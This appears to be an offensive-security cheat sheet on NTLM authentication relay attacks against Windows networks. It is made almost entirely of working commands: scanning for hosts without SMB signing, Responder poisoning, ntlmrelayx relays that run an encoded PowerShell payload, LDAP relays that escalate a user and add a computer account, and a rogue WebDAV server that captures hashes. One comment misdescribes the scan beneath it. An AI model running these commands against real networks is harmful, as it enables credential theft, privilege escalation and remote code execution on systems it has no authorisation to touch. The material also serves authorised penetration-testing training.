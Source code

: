 ## Authentication Relays

Authentication relay attacks involve intercepting authentication attempts and relaying them to another system.

### SMB Relay Attack

```bash
# Disable SMB signing on target first
nmap -p 445 --script=smb-security-mode 10.10.10.0/24 | grep -A 2 "security-mode" | grep "message_signing"

# Find potential targets with SMB signing disabled
crackmapexec smb 10.10.10.0/24 --gen-relay-list targets.txt

# Run ntlmrelayx
ntlmrelayx.py -tf targets.txt -smb2support -c "powershell -enc BASE64_ENCODED_PAYLOAD"

# Using Responder with ntlmrelayx
# First edit Responder.conf to disable SMB and HTTP servers
sudo nano /usr/share/responder/Responder.conf
# Set SMB = Off and HTTP = Off

# Then start Responder
sudo responder -I eth0 -v

# In another terminal, start ntlmrelayx
sudo ntlmrelayx.py -tf targets.txt -smb2support -i
```

### LDAP Relay

```bash
# LDAP/S relay attack
ntlmrelayx.py -t ldap://10.10.10.100 --delegate-access --escalate-user compromised_user

# Execute commands via LDAP relay
ntlmrelayx.py -t ldaps://10.10.10.100 --add-computer relay-attack 'P@ssw0rd123'
```

### HTTP/WebDAV Relay

```bash
# Create a WebDAV share to capture hashes
wsgidav --host=0.0.0.0 --port=80 --auth=ntlm

# Use with ntlmrelayx
ntlmrelayx.py -t http://10.10.10.100 -smb2support
```

## Microsoft Deployment Toolkit (MDT) Attacks

